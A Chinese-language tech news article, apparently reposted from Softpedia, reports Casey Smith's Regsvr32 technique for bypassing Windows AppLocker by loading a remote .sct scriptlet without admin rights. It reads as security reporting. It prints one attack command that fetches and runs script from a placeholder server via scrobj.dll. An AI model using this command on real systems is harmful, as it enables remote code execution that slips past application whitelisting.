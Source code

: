 ```yaml
---
layout: post
title: Windows AppLocker被绕过：攻击者可不提权联网注入DLL
categories:
- 今日头条
tags:
---
```

![](http://p3.pstatp.com/large/5230000951b1ffb085a)

Regsvr32则是一款可被安装工具（或批处理脚本）使用，以便快速注册动态链接库的脚本工具。

照理说，微软既然把这款“中性”而又危险的工具留在系统中，就应该管好它不被管理员之外的人所滥用。但遗憾的是，我们几乎不可能检测到这种类型的攻击。

据安全研究人员Casey Smith所述，当攻击者在某台受感染的工作站上立足之后，就可以滥用Regsvr32、通过网络下载一个COM脚本程序（.sct文件），然后在本地机器上注册一个DLL。

更糟糕的是，攻击者甚至无需取得管理员权限。Regsvr32可借助代理和TLS连接、重定向等功能，并且它拥有微软自家的证书，所以可以执行任何看似正常的背景活动命令。

下面是标准的Regsvr32参数、以及而已命令的对比：

▪ regsvr32 [/u] [/s] [/n] [/i[:cmdline]] dllname▪ regsvr32 /s /n /u /i:http://server/file.sct scrobj.dll

Smith还指出，“regsvr32能够接收的脚本网址没有很好的记录，要触发这一‘旁路’，可以把内置VB和JS元素的代码块放进去”。

在进一步的测试中，研究人员还在GitHub上放出了系统管理员能够下载的“概念验证脚本”（通过Regsvr32并打开一个后门、或者基于HTTP的反向shell）。

从理论上来说，这种类型的“漏洞”允许攻击者访问注册所有DLL，然后在被感染的计算机上执行恶意代码，更别说管理员权限了。

[编译自：Soft Pedia]